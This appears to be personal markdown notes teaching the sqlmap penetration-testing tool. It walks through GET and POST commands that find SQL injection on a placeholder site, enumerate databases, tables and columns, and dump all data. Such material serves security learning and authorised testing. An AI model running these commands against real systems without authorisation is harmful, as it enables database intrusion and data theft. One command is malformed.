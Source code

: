 ## What is sqlmap?
   sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over database servers.

## Sqlmap commands

1. To show the basic help menu, simply type `sqlmap -h` in the terminal.
```python
sqlmap -h
```

2. **Basic** commands:
![[sqlmap1.png]]

3. **Enumeration** commands:
   These options can be used to enumerate the back-end database management system information, structure, and data contained in tables.
![[sqlmap2.png]]

4. **Operating System** access commands
   These options can be used to access the back-end database management system on the target operating system.
![[sqlmap3.png]]

**Note** - _the tables shown above aren't all the possible switches to use with sqlmap. For a more extensive list of options, run `sqlmap -hh` to display the advanced help message._

## examples using both GET and POST Method based requests

1. **Simple HTTP GET Based Test**
```python
sqlmap -u https://testsite.com/page.php?id=7 --dbs
```
Here we have used two flags: -u to state the vulnerable URL and --dbs to enumerate the database.

2. **Simple HTTP POST Based Test**
   First, we need to identify the vulnerable POST request and save it. In order to save the request, Right Click on the request, select 'Copy to file', and save it to a directory. You could also copy the whole request and save it to a text file as well.
![[sqlmap4.png]]
You’ll notice in the request above, we have a POST parameter 'blood_group' which could a vulnerable parameter.

![[sqlmap5.png]]

**Now that we’ve identified a potentially vulnerable parameter, let’s jump into the sqlmap and use the following command:**
```python
sqlmap -r req.txt -p blood_group --dbs
```

```python
sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
```

**Here we have used two flags: -r to read the file, -p to supply the vulnerable parameter, and --dbs to enumerate the database.**
![[sqlmap6.png]]

##### Now that we have the databases, let's extract tables from the database **blood**.
1. **Using GET based Method**
```python
sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables
```

```python
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables
```

2. **Using POST based Method**
```python
sqlmap -r req.txt -p blood_group -D blood --tables
```

```python
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
```

##### Once we run these commands, we should get the tables.
![[sqlmap7.png]]

##### Once we have available tables, now let’s gather the columns from the table blood_db.
1. **Using GET based Method**
```python
sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns
```

```python
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns
```

2. **Using POST based Method**
```python
sqlmap -r req.txt -D blood -T blood_db --columns
```

```python
sqlmap -r req.txt -D <database_name> -T <table_name> --columns
```

![[sqlmap8.png]]

##### Or we can simply dump all the available databases and tables using the following commands.
1. **Using GET based Method**
```python
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all
```

```python
sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all
```

2. **Using POST based Method**
```python
sqlmap -r req.txt -D <database_name> --dump-all
```

```python
sqlmap -r req.txt-p  -D <database_name> --dump-all
```

```python
sudo sqlmap -r test.txt -p username -D blood -T users --dump
```
